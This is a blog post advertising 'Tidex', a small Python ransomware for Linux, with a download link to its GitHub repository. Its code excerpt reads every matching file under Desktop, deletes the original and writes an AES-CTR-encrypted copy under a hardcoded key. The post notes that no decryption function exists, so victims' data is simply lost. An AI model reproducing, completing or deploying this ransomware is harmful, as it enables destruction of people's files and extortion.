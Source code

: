 ```yaml
---
title: "[🇺🇸] Tidex Ransomware"
excerpt: "Ransomware Example "Tidex" for Linux"
date: "Jan 30 2023"
cover_image: "/blog/rtidex.webp"
alt: "Ransomware"
tags1: "Python"
tags2: "Hacking"
---
```


# Tidex

Simple little Ransomware, only works to encrypt files in the directory path Desktop and subdirectories.

&nbsp;

## Important

At the moment it can only be executed on Linux machines. it lacks decryption function.
The KEY is: **hkpykiiqftupr3okl04azj**

&nbsp;

Code Example

```python
def _lock():
    for files in all_Ext:
        for _dotFile in glob.glob(files):
            print(_dotFile)
            f = open(f'{__dir()}/{_dotFile}', 'rb')
            dataArr = f.read()
            f.close()
            os.remove(f'{__dir()}/{_dotFile}')
            key = "hkpykiiqftupr3okl04azj"
            aes = pyaes.AESModeOfOperationCTR(key)
            EncryptData = aes.encrypt(dataArr)
            newArr = _dotFile.replace(char, "") + Ext
            newArr = open(f'{newArr}', 'wb')
            newArr.write(EncryptData)
            newArr.close()
```

### [Dowload Here From GitHub](https://github.com/Rawierdt/Tidex)

Thx
~ Rawier.
